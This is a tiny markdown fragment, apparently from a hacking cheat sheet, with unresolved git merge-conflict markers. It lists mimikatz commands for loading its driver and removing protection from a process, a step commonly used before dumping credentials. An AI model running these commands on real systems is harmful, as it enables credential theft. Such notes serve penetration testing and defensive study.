 <<<<<<< HEAD
- to start mimikatz `!+`
=======
- to start mimikatz `!+`
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
- to remove protection `!processprotect /process:<process> /remove`